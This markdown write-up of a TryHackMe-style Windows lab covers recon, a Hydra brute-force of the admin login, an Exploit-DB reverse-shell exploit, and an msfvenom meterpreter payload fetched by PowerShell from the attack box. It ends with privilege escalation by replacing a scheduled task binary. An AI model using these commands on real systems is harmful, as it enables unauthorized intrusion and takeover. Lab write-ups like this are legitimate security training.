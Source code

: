 ## Recon
 
Begin recon with NMAP to see which ports are open on the box
 
 ![image](https://user-images.githubusercontent.com/88425510/215881658-a6e4f83f-dab3-4642-882e-db8aa872ad88.png)
 
NMAP shows that port 80 is open, suggesting there is a webpage being hosted by this machine.
 
Enumerate the webpage using GOBUSTER
 
 ![image](https://user-images.githubusercontent.com/88425510/215881709-65b0567b-80a4-491b-8bd6-7537a574485b.png)
![image](https://user-images.githubusercontent.com/88425510/215881730-2db10926-5a98-41bc-807a-153e028f5312.png)

 
This shows a number of places to check - note robots.txt
 
Visit robots.txt to see if there is any useful information available
 
 ![image](https://user-images.githubusercontent.com/88425510/215881777-52aa1b05-3f38-4d5a-a2e7-f280cae8b0a3.png)
 
Account looks promising
 
Navigate to account to see what we have

 ![image](https://user-images.githubusercontent.com/88425510/215881821-b08fe4fc-aa3e-49e8-adc5-f0c27d377852.png)
 
Note the default credentials seems to be admin:admin - this does not work so we will use admin as the username and attempt to bruteforce the password
 
## Foothold
 
Attempt a login and capture it with Burpsuite to gain information needed to form the Hydra attack
 
 ![image](https://user-images.githubusercontent.com/88425510/215881899-15f4d0b0-8f35-4b27-8548-ee7e26685e85.png)

Lines 1 and 14 are needed
Take these parts from Burp and the webpage to create Hydra command:
 
 ![image](https://user-images.githubusercontent.com/88425510/215881925-d88e0953-f22b-4f85-846c-9ef155e7f23b.png)
![image](https://user-images.githubusercontent.com/88425510/215881971-e7bd79f6-3201-4100-8438-7c7f1b09c86e.png)

 ![image](https://user-images.githubusercontent.com/88425510/215882009-6bae3aca-fdd6-4a1c-ab96-15472ce2a9f8.png)
 
Login failed
 
 
 
Combine the failed login message and the POST and VIEWSTATE fields to create the Hydra attack:

```
hydra -l admin -P /usr/share/wordlists/rockyou.txt 10.10.176.34 http-post-form "/Account/login.aspx?ReturnURL=/admin:__VIEWSTATE=VwAXG6ABUHHdsZyp9V5Zfa%2FQmIafRzp9ILoXJGVuXK8nUhCHtDfc4cAUkNeYybCBgFS7ttIKN9%2BL1TZYt9wc7ImbzKDO42jKqT4NzM2iK4qGYFdI5l7pg9jiSeKSYGI82ymoCvW67UVtpc1TE%2B1wg%2FuUJT23Wobx8ck39wYrMVKKYXRX&__EVENTVALIDATION=3FvnxLCU1vf%2FftSD5m08pwViCr63XR1GLrEKqv2qr42Hq8JQp2LWRA97rKzv1QZ1I8etW3igopbcuFlAq9be8kEAzsR5lfswhZLzLPLpwJrudjeGAiqRUNtpYvd2OfVPGKlinHl3CuVaVXXWfMEWJuKroB6hY9%2BlMqRgvnn3xhT%2Bzmv0&ctl00%24MainContent%24LoginUser%24UserName=^USER^&ctl00%24MainContent%24LoginUser%24Password=^PASS^&ctl00%24MainContent%24LoginUser%24LoginButton=Log+in:Login failed"
```
 
Note: ^USER^ and ^PASS^ must be used to use the username and password list
 
 ![image](https://user-images.githubusercontent.com/88425510/215882113-324e4abe-518a-449f-8c45-e0f952c262be.png)
 
Attack successful
 
## ID vulns
 
Login with the stolen credentials and then learn about the system
 
![image](https://user-images.githubusercontent.com/88425510/215882190-e03adfd8-a2b5-4960-a267-8d7aa68121fc.png)

See what verstion, google and search exploit-DB
 
https://www.exploit-db.com/exploits/46353
 
 ![image](https://user-images.githubusercontent.com/88425510/215882217-23cc0115-51f0-4bc4-a49d-14b67cc76c33.png)
  
Download and configure the exploit, remove bloat at the start and put attackbox info in socket
 
 ![image](https://user-images.githubusercontent.com/88425510/215882296-f7baf7c8-f18f-48f4-8131-ecd13176372f.png)
 
Attack box netcat listener on same port used in exploit
 
 ![image](https://user-images.githubusercontent.com/88425510/215882328-bdf896a3-ef24-4ec8-8efb-6553ec9f2ebe.png)
 
Exploit-DB how to use exploit
 
 
 
Upload the exploit
 
 ![image](https://user-images.githubusercontent.com/88425510/215882417-52ceb1cc-2a97-402d-b84d-61347262061b.png)
 
 ![image](https://user-images.githubusercontent.com/88425510/215882448-032138fc-2a4c-4630-8ca6-cabcb4ccb34b.png)

Shell popped
 
## Shell stabilisation
 
 ![image](https://user-images.githubusercontent.com/88425510/215882481-9478302a-342f-4027-9dc8-fde50b57699b.png)
 
Some on box enumeration
 
Going to stabilise the shell with a meterpreter shell as it crashed a couple of times:

```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.87.68 LPORT=9001 -f exe > shell.exe
```
 
 ![image](https://user-images.githubusercontent.com/88425510/215882523-b58d6d30-3d0d-46b9-b2b0-34b40caa3b29.png)

```
python3 -m http.server
```
 
 ![image](https://user-images.githubusercontent.com/88425510/215882566-9695fa26-79fa-4485-9a78-8193fb73cee9.png)

Host a simple http server
 
On the target machine navigate to world writable location:
 
 ![image](https://user-images.githubusercontent.com/88425510/215882597-dd339976-c182-40c6-b7d6-0bcfa276baee.png)

```
powershell -c "Invoke-WebRequest -Uri 'http://10.10.87.68:8000/shell.exe' -OutFile 'C:\Windows\Temp\shell.exe'"
```

 ![image](https://user-images.githubusercontent.com/88425510/215882617-7a1dde73-7049-46a0-bb08-2016abe78e51.png)

Use powershell to pull the meterpreter shell over
 
## Get meterpreter shell
 
Open metasploit on attack box and set up a multi/handler
Note - 
set payload windows/meterpreter/reverse_tcp
Set lport to port used in msfvenom payload
Set lhosts to attack box
 
 ![image](https://user-images.githubusercontent.com/88425510/215882673-aa04534b-b6f3-4d1f-8f59-d36540e7d871.png)

Running shell.exe on target machine and getting session on metasploit
 
 
## On host enumeration
 
Upload winPEAS
 
 ![image](https://user-images.githubusercontent.com/88425510/215882711-ef262bed-e2ba-4e3a-a35c-88f3020b002d.png)

Attack box hosing simple python server

![image](https://user-images.githubusercontent.com/88425510/215882739-5ebee602-d7d0-475a-8677-1905a7606000.png)

```
powershell -c "Invoke-WebRequest -Uri 'http://10.10.189.26:8000/winPEAS.bat' -OutFile 'C:\Windows\Temp\winPEAS.bat'"
```
 
Using powershell to get winPEAS
 
In Shell:
 
.\winPEAS.bat
 
In order to actually read the winPEAS output I had to pipe it to a .txt file and download it. I think this is something to do with the buffer/ terminal memory on the attack box. Something to look in to again.
The output shows that WindowsScheduler is running, this can often be abused
 
In order to read the output:
```
.\winPEAS.bat > winpeas.txt
Download winpeas.txt
Less winpeas.txt
```
 
 
Having the below service running means something is scheduled:
 
![image](https://user-images.githubusercontent.com/88425510/215882826-3e8b1128-cd5a-4023-acd2-193c3585b611.png)

Navigate to program filex x86 \systemscheduler \events
you can see what is being run
 
![image](https://user-images.githubusercontent.com/88425510/215882884-a5083080-3c5c-439b-a1d6-51c4e86e45e0.png)

![image](https://user-images.githubusercontent.com/88425510/215882932-c52f25ff-c24e-4e7b-882a-538f68bc4d71.png)

![image](https://user-images.githubusercontent.com/88425510/215882954-34f78cef-6519-40a0-8c53-22523b14c788.png)
 
We can replace message.exe with our shell.exe and as it is being run as administrator this will elevate our privileges
For some reason on this box you cannot copy it and so will have to download it as before
 
Get shell.exe into systemscheduler:

```
powershell -c "Invoke-WebRequest -Uri 'http://10.10.189.26:8000/shell.exe' -OutFile 'C:\Program Files (x86)\SystemScheduler\shell.exe'"
```

Exploit service:
 
![image](https://user-images.githubusercontent.com/88425510/215883005-a2d10dab-6ea2-432c-bcef-086b9235c831.png)

![image](https://user-images.githubusercontent.com/88425510/215883032-6c0d9df9-7fe6-4c8b-934d-8dae7ff38517.png)

![image](https://user-images.githubusercontent.com/88425510/215883049-6d25a5c3-54a4-4ebd-a383-d8e923ac668b.png)

 
Replace message.exe with shell.exe
 
Note, this creates a session every 30 secons when the service runs so stop handler after you have one
 
## Getting flags:
 
Session 2 gives admin session

![image](https://user-images.githubusercontent.com/88425510/215883109-c73902f7-0ac3-4573-a72a-0364e012f6fc.png)
 
Look around for flags, both were on respective users desktops

![image](https://user-images.githubusercontent.com/88425510/215883160-72ec04fd-d7fe-400f-9a1d-da4e677e0443.png)

![image](https://user-images.githubusercontent.com/88425510/215883202-02915721-c309-4912-9770-51ec57eef056.png)

![image](https://user-images.githubusercontent.com/88425510/215883220-ed5c6814-8bae-4d6e-a7d9-10e19094f723.png)
 
Answer to one of the questions
 
## Final thoughts
 
This was an enjoyable box. I followed along the video on THM for the priv esc stuff. 
It took a long time for me to craft the Hydra command correctly, I spent a good 30 mins waiting and then got a load of false positives, then recrafted the command and got it right. 
The winPEAS scrolling problem is something I need to look back into, I've had it before on other machines and did find a fix previously but cannot remember what it was, although saving outputs is a useful thing to do. 
 


